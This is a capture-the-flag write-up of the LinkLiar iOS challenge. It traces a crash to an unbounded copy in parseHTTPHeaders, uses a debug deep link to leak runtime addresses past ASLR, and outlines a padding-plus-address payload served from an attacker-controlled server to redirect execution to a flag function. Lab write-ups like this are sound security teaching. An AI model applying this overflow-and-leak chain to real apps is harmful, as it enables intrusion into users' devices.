Yo folks, long time.

Lately, I’ve been diving deeper into iOS reverse engineering, and during that journey, I came across the LinkLiar challenge from Mobile Hacking Labs. This one, though, had me stuck for quite a while. The challenge description practically screamed “buffer overflow,” but somehow I just couldn’t spot the bug at first. Honestly, it was the kind of frustration where you stare at the same code for hours and feel completely lost.

But after banging my head against it long enough, things started to click.

In this post, I'll walk through how I approached the challenge, how I finally tracked down the crash, and how I pieced it all together into a working exploit. Fair warning: this is based on my understanding of the challenge if I got something wrong, feel free to correct me. We're all here to learn.

### Tools Used

- LLDB
- Ghidra
- Burpsuite
- Objection

### Application Overview

The app is pretty simple. It has a feature that lets you scan a URL provided by the user.







There is also a **Debug Mode** option, but it appears greyed out initially.

To begin testing, I tried a couple of URLs:

- http://example.com
- http://google.com



Interestingly, the app crashed when I submitted the Google URL. That immediately made it worth investigating further.

### Debugging the Crash

Since the app crashed, the next step was to inspect it dynamically. LLDB was the obvious tool for this, so I spun up both the LLDB server and client.




After triggering the crash again, I checked the backtrace.



The backtrace showed a few frames, but the interesting one was:

`0x00000001008b6ddc Linkliar\`-[ViewController parseHTTPHeaders:] + 380`

That gave me a clear starting point for static analysis.

### Reversing `parseHTTPHeaders:`

I opened the LinkLiar binary in Ghidra and searched for `parseHTTPHeaders:` in the Symbol Tree.



I found the function and reviewed its decompiled output.




### Understanding the Overflow

The loop manually copies a string without any bounds checking. It will keep writing characters to pcVar13 (which points to local_7410) until it hits a null terminator in the source string. Check out https://0xmohomiester.github.io/posts/Linkliar/ for more clarity on the same.

### The Flag Function

Lets look into the flag 



That was an important discovery, because the challenge goal was clearly to redirect execution into this function.

### Finding an Exploitation Path

To call `_flag()` through the overflow, I needed two things:

1. The runtime address of `_flag()`
2. A way to receive the exfiltrated flag request

### Deep Link Discovery

I then checked `Info.plist` and found a custom URL scheme:



This showed that the app could handle `linkliar://` URLs. That made deep link functionality a likely attack surface, so I continued searching in Ghidra for related strings and handlers.



From there, I found references to:

- `scan`
- `/scan`
- `debug`

The `debug` path immediately stood out. Looking at the handler logic, it expected a query parameter as well. That suggested a deep link format like:

`linkliar://debug?url=http://[server]`

When I triggered it, I found that the app stored the supplied URL in `NSUserDefaults` as the debug endpoint. In other words, this deep link enabled the previously greyed-out debug mode.






### Turning Debug Mode Into an Info Leak

This debug feature turned out to be extremely useful. When the debug deeplink was activated, the app sent a debug report to the attacker controlled server over a POST request. That report included runtime addresses.



This solved the ASLR problem for me. Instead of relying on the static address seen in Ghidra, I could use the leaked runtime address from the debug report.

Conveniently, the second leaked address corresponded to the real address of the flag function in memory.

### Crafting the Exploit

Once I had the runtime address of `_flag()`, the remaining task was building a payload that overwrote control data and redirected execution.



The exploit logic was straightforward:

- Receive the debug report and store the leaked addresses in an array such as `debug_addrs[]`.
- Extract the second entry as `flag_addr`.
- Convert `flag_addr` into little-endian format.
- Create padding of 32 bytes using `A`.
- Build the final payload as: padding + little-endian `flag_addr`.
- Return the payload in the malicious HTTP response.

### Exploit Chain

The full chain looked like this:

1. Start the exploit server.
2. Open the debug deep link on the iPhone: `linkliar://debug?url=http://[YOUR_IP]:8080`
3. In the app, scan the malicious URL: `http://[YOUR_IP]:8080/`
4. The app sends a debug report containing runtime addresses.
5. The server extracts the leaked `_flag()` address.
6. The crafted payload is delivered.
7. Control flow is redirected to `_flag()`.
8. The flag is exfiltrated back to the attacker-controlled server.

### Flag Exfiltration

After the exploit completes, the app sends the flag back to the server in a POST request:

<video controls width="100%">
  <source src="images/linkliar-writeup/poc.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>

That completes the challenge.

I really enjoyed this one because it combined multiple pieces instead of being just a simple crash-to-win task. The buffer overflow alone was not enough the interesting part was chaining it with the deeplink functionality and the address leak to bypass ASLR and reach the flag function reliably.

Reference:
1. https://www.inversecos.com/2022/06/how-to-reverse-engineer-and-patch-ios.html
2. https://0xmohomiester.github.io/posts/Linkliar/

Happy hacking. 🚀